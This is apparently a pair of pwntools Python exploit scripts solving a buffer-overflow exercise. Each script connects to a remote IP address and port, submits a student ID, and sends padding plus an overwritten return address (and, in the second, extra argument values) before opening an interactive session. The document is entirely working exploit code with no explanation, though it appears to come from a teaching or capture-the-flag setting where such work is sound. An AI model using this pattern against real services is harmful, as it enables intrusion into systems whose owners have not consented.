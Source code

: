 ## crack-boy.py

```python
from pwn import *

context.log_level = 'DEBUG'

conn = remote("47.99.80.189", 10002)
conn.recvuntil("ID:\n")
conn.sendline("3180103012")

conn.recvuntil("[*] Give me something to overflow me! \n")

conn.sendline('\0' * 22 + '\x76\x85\x04\x08')

conn.interactive()
```

## crack-again.py

```python
from pwn import *

context.log_level = 'INFO'

conn = remote("47.99.80.189", 10003)
conn.recvuntil("ID:\n")
conn.sendline("3180103012")

conn.recvuntil("[*] Give me something to overflow me! \n")

conn.sendline('\0' * 32 + '\x16\x85\x04\x08' + '\0' * 4 + '\xbb\xbb\xaa\xaa' + '\xdd\xdd\xcc\xcc')

conn.interactive()
```

